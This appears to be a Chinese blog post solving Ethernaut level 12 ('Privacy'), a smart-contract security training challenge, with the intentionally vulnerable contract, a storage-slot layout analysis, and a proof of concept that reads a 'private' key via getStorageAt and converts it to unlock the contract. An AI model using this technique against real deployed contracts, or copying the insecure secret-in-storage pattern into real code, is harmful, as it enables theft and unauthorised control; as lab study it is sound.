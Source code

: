 ```yaml
---
title: '合约slot读取'
date: 2022-12-11 20:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'


---
```


<!-- more -->

::: tip

目前来看最全面的智能合约安全靶场:+1:

https://ethernaut.openzeppelin.com/ 

浏览器控制台 help()指令

![help](./assets/1670479273112.png)

:::

#### 第十二关Privacy 思路与POC

#### 目标: 将locked变量设置为false

##### 先看代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {

/*
数据存储布局分析
！存储插槽不根据类型分配,只根据变量所占空间分配

 bool public locked = true; -> slot1没有位置所以独占32字节 = slot0
  uint256 public ID = block.timestamp; -> uint256占32字节 = slot1
  
  根据紧凑存储原则 以下三个相邻变量共享一个slot 
  uint8 private flattening = 10; -> 1字节 
  uint8 private denomination = 255; -> 1字节
  uint16 private awkwardness = uint16(block.timestamp); -> 2字节 
  -------------> slot2
  
  数组类型并且每个元素占32字节,连续存储
  bytes32[3] private data; -> data[0] = slot3 ,data[1] = slot4 ,data[2] = slot5
*/
  bool public locked = true;
  uint256 public ID = block.timestamp;
  uint8 private flattening = 10;
  uint8 private denomination = 255;
  uint16 private awkwardness = uint16(block.timestamp);
  bytes32[3] private data;

  constructor(bytes32[3] memory _data) {
    data = _data;
  }
  
  function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
  }
}
```

##### poc思路:point_right:：虽然变量全部为private类型,而且密码还存在byte32数组中,但是呢如果对EVM的数据存储机制足够了解的话就能读取出byte32类型的密码

```js
//根据综上存储布局分析, 读取插槽5的数据    
await web3.eth.getStorageAt(
        "0x38Da8513ec46031966Db46718ef10E9fd6aa3Dd0",
        5,
        (err, res) => {
            console.log(res)
        }
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ByteConvert{
      
    bytes16 public  res16 ; 

    bytes32 public  res32 ; 
    //将byte32转换为byte16即是_key
    function byte32To16(bytes32 data) public{
        res16 =  bytes16(data);      
    }
     function byte16To32(bytes16 data) public{
        res32 =  bytes32(data);      
    }
}
```

##### 完成:tada:

```js
await contract.locked()
false
```

